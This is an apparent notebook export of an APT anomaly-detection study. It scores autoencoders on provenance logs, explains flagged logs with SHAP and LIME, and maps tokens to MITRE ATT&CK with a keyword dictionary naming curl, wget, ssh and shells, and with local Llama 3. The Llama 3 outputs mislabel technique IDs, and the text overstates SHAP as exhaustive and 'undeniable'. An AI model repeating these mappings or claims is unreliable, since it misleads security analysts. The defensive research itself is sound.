        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. Load the saved weights using dynamic EMBEDDING_NAME
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    weight_path = os.path.join(MODEL_SAVE_DIR, weight_filename)
    
    if not os.path.exists(weight_path):
        return None # Skip if weights don't exist
        
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for CONTRIEVER on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.15 | PR-AUC: 0.0769
    -> Sparse Done! F1: 0.1739 | PR-AUC: 0.0556
    -> Deep SVDD Done! F1: 0.2326 | PR-AUC: 0.1113
    -> DAE Done! F1: 0.1538 | PR-AUC: 0.0521
    -> VAE Done! F1: 0.1739 | PR-AUC: 0.0578
    -> Beta-VAE Done! F1: 0.1739 | PR-AUC: 0.0568
    -> GMVAE Done! F1: 0.1818 | PR-AUC: 0.061
    -> Attention AE Done! F1: 0.15 | PR-AUC: 0.0759
    -> LSTMAE Done! F1: 0.125 | PR-AUC: 0.0598
    -> Robust Done! F1: 0.125 | PR-AUC: 0.0556
    -> Contractive Done! F1: 0.1739 | PR-AUC: 0.0573

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0909 | PR-AUC: 0.0316
    -> Sparse Done! F1: 0.0882 | PR-AUC: 0.0321
    -> Deep SVDD Done! F1: 0.1045 | PR-AUC: 0.0363
    -> DAE Done! F1: 0.087 | PR-AUC: 0.0323
    -> VAE Done! F1: 0.1 | PR-AUC: 0.0303
    -> Beta-VAE Done! F1: 0.0923 | PR-AUC: 0.0332
    

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.8716 | PR-AUC: 0.7911
    -> Sparse Done! F1: 0.0446 | PR-AUC: 0.0149
    -> Deep SVDD Done! F1: 0.7263 | PR-AUC: 0.6145
    -> DAE Done! F1: 0.4507 | PR-AUC: 0.3141
    -> VAE Done! F1: 0.0436 | PR-AUC: 0.0142
    -> Beta-VAE Done! F1: 0.042 | PR-AUC: 0.0142
    -> GMVAE Done! F1: 0.7733 | PR-AUC: 0.7114
    -> Attention AE Done! F1: 0.0444 | PR-AUC: 0.0145
    -> LSTMAE Done! F1: 0.8246 | PR-AUC: 0.728
    -> Robust Done! F1: 0.8054 | PR-AUC: 0.8062
    -> Contractive Done! F1: 0.0441 | PR-AUC: 0.0153

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7321 | PR-AUC: 0.5823
    -> Sparse Done! F1: 0.036 | PR-AUC: 0.0123
    -> Deep SVDD Done! F1: 0.1786 | PR-AUC: 0.085
    -> DAE Done! F1: 0.4 | PR-AUC: 0.2213
    -> VAE Done! F1: 0.0258 | PR-AUC: 0.0074
    -> Beta-VAE Done! F1: 0.0279 | PR-AUC: 0.0079
    -> GMVAE Done! F1: 0.5772 | PR-AUC: 0.3421
    -> Attention AE

#### XAI Integration and MITRE ATT&CK mapping

##### v1

In [7]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CONTRIEVER UPDATE] 
EMBEDDER_NAME = "facebook/contriever" 
INPUT_DIM = 768  # Critical: Contriever uses 768 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} on {self.device.upper()}...")
        
        # Contriever is perfectly standard, no trust_remote_code needed
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 4 
        all_errors = []
        
        # Set autocast device dynamically based on CPU vs CUDA
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding=True, 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [CONTRIEVER UPDATE]: Mean Pooling across the seq_len dimension
                    embeddings = outputs.last_hidden_state.mean(dim=1)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Update folder to match Contriever
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_contriever", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    ae_model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    print(f"✓ Loaded weights: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    if weight > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: +{weight:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: x[1], reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    if score > 0 and len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: +{score:.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights: saved_weights_contriever\theia_ProcessAll_Baseline.pth
Loading facebook/contriever on CUDA...


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:129: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\MOHAMMEDWALEEDKHAN\.cache\huggingface\hub\models--facebook--contriever. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
Loading weights: 100%|██████████| 199/199 [00:00<00:00, 28371.68it/s


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:

Calculating SHAP values (Optimized speed...)

SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> '72' (Anomaly Impact: +0.0000)
    [i] No MITRE mapping found.
 -> 'and' (Anomaly Impact: +0.0000)
    [!] LLaMA-3 MITRE MAPPING: T1003 - Child Process Creation
 -> 'network' (Anomaly Impact: +0.0000)
    [!] LLaMA-3 MITRE MAPPING: T1566.002 - Domain Controller Authentication
 -> '80' (Anomaly Impact: +0.0000)
    [!] LLaMA-3 MITRE MAPPING: T1560.001 - System Network Configuration Discovery


##### v2

In [ ]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
from sklearn.metrics import roc_auc_score, ndcg_score, dcg_score

# ==========================================
# 1. CONFIGURATION
# ==========================================
SPLIT_DIR = "final_train_test_split_bge_m3"  
MASTER_DATA_FILE = "all_data_with_sentences.pkl"  
MODEL_SAVE_DIR = "saved_weights_bge_m3"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

EMBEDDER_NAME = "BAAI/bge-m3"
INPUT_DIM = 1024    
MSE_AMPLIFIER = 1000.0  

print(f"Booting Deep Explainer & Evaluator on {DEVICE.upper()}...")
print("-" * 60)

# ==========================================
# 2. AUTOENCODER & PIPELINE
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x): return self.decoder(self.encoder(x))

class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray): text_list = text_list.tolist()
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 16 
        all_errors = []
        
        for i in range(0, len(text_list), batch_size):
            inputs = self.tokenizer(text_list[i:i+batch_size], padding=True, truncation=True, max_length=128, return_tensors="pt").to(self.device)
            with torch.inference_mode():
                outputs = self.embedder(**inputs)
                embeddings = outputs.last_hidden_state[:, 0, :] 
                embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                recon = self.ae_model(embeddings)
                
                errors = torch.mean((embeddings - recon) ** 2, dim=1) * MSE_AMPLIFIER
                all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 3. LLAMA-3 MITRE MAPPER
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text.
If no technique matches, return 'Unknown'."""
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=5)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return "Unknown"
    except:
        return "Unknown"

# ==========================================
# 4. EXECUTION
# ==========================================
print(f"Loading Master Text Data...")
with open(MASTER_DATA_FILE, "rb") as f:
    master_text_data = pickle.load(f)

performers = [p for p in os.listdir(SPLIT_DIR) if os.path.isdir(os.path.join(SPLIT_DIR, p)) and not p.startswith('.')]
found_target = False

for performer in performers:
    test_dir = os.path.join(SPLIT_DIR, performer, "test")
    if not os.path.exists(test_dir): continue
        
    files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
    
    for file in files:
        context = file.replace('.pkl', '')
        weight_path = os.path.join(MODEL_SAVE_DIR, f"{performer}_{context}_Baseline.pth")
        
        if not os.path.exists(weight_path): continue
            
        with open(os.path.join(test_dir, file), 'rb') as f:
            pkg = pickle.load(f)
            X_test, y_test = pkg['X'], pkg['y']
            
        if len(np.unique(y_test)) < 2: continue 

        model = VanillaAE(INPUT_DIM).to(DEVICE)
        model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
        model.eval()
        
        tensor_test = torch.FloatTensor(X_test).to(DEVICE)
        with torch.no_grad():
            recon = model(tensor_test)
            all_errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
            
        auc = roc_auc_score(y_test, all_errors)
        try:
            dcg = dcg_score([y_test], [all_errors])
            idcg = dcg_score([y_test], [y_test])
            ndcg = ndcg_score([y_test], [all_errors])
        except:
            dcg, idcg, ndcg = 0.0, 0.0, 0.0

        print("\n" + "="*80)
        print(f"🎯 DATASET ACQUIRED: {performer.upper()} - {context}")
        print("-" * 80)
        print(f"Dataset Evaluation Metrics:")
        print(f"   AUC-ROC : {auc:.4f}")
        print(f"   DCG     : {dcg:.4f}")
        print(f"   IDCG    : {idcg:.4f}")
        print(f"   nDCG    : {ndcg:.4f}")
        print("="*80)

        try:
            df_text = master_text_data[performer][context]
            label_col = 'label' if 'label' in df_text.columns else 'y'
            text_col = 'sentence' if 'sentence' in df_text.columns else 'text'
            
            anomalies_df = df_text[df_text[label_col] == 1]
            if anomalies_df.empty: continue
                
            apt_logs_all = anomalies_df[text_col].tolist()
        except KeyError:
            continue

        pipeline = APT_Explainer(EMBEDDER_NAME, model, DEVICE)
        
        text_anomaly_scores = pipeline.predict_anomaly_score(apt_logs_all)
        worst_idx = np.argmax(text_anomaly_scores)
        target_log = apt_logs_all[worst_idx]
        target_score = text_anomaly_scores[worst_idx]
        
        print(f"\n[Deep Analysis of Top-Ranked Anomaly]")
        print(f"Raw Log: {target_log}")
        print(f"Amplified Anomaly Score: {target_score:.4f}\n")

        # ---------------------------------------------------------
        # LIME (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("[1] Running LIME (Dynamic Probability Scaling)...")
        lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly']) 
        
        def lime_predict_wrapper(text_list):
            errs = pipeline.predict_anomaly_score(text_list)
            ptp = np.ptp(errs)
            probs = np.full_like(errs, 0.5) if ptp == 0 else 0.1 + 0.8 * ((errs - np.min(errs)) / ptp)
            return np.vstack((1 - probs, probs)).T
            
        try:
            lime_exp = lime_explainer.explain_instance(target_log, lime_predict_wrapper, num_features=5, num_samples=500)
            
            print("   Top LIME Drivers (Tokens causing largest latent shift):")
            # SORTING FIX: Sort by absolute value to catch the massive Autoencoder shifts
            for word, weight in sorted(lime_exp.as_list(), key=lambda x: abs(x[1]), reverse=True):
                mitre = get_mitre_from_llm(target_log, word)
                sign = "+" if weight > 0 else ""
                print(f"      -> '{word}' (Impact: {sign}{weight:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] LIME error: {e}")

        # ---------------------------------------------------------
        # SHAP (Absolute Magnitude Sort)
        # ---------------------------------------------------------
        print("\n[2] Running SHAP (Amplified Variance)...")
        try:
            shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
            shap_values = shap_explainer([target_log], max_evals=200) 
            
            words, impact_scores = shap_values.data[0], shap_values.values[0]
            # SORTING FIX: Sort by absolute magnitude
            word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
            
            print("   Top SHAP Drivers:")
            for word, score in word_impacts[:5]:
                clean_word = word.strip()
                if len(clean_word) > 1:
                    mitre = get_mitre_from_llm(target_log, clean_word)
                    sign = "+" if score > 0 else ""
                    print(f"      -> '{clean_word}' (Impact: {sign}{score:.4f}) | MITRE: {mitre}")
        except Exception as e:
            print(f"   [!] SHAP error: {e}")

        found_target = True
        break 
        
    if found_target: break

print("\n" + "-"*80)
print("Pipeline Complete.")

##### v3 - taking Absolute Magnitude `abs(weight)` 

- Now, the code uses Absolute Value (abs(weight)). It doesn't care if the score is +0.50 or -0.50; it just looks for the words that caused the absolute biggest explosion in the math.


LIME output?
1. It takes your log and asks the Autoencoder for the anomaly score.
2. It randomly pokes out a few words and asks the Autoencoder for the new score.
3. It does this a few hundred times really fast.
4. It then looks at the mess and makes an educated guess (using a simple straight-line graph) about which specific words caused the tower to wobble the most.


SHAP output?
1. Instead of just poking out random words, SHAP uses hardcore Game Theory (specifically, Shapley values from economics).
2. It tests removing words in every possible combination to see how the words interact with each other (e.g., does "cmd.exe" only cause a spike if "taskkill" is also in the sentence?).
3. It calculates the exact, fair percentage of the "blame" that belongs to every single word.
- In short: SHAP is much slower than LIME, but it doesn't guess. It gives you the mathematically perfect, undeniable answer for why the Autoencoder flagged the log.

In [1]:
import os
import pickle
import torch
import numpy as np
import shap
import requests
import torch.nn as nn
from transformers import AutoTokenizer, AutoModel
from lime.lime_text import LimeTextExplainer
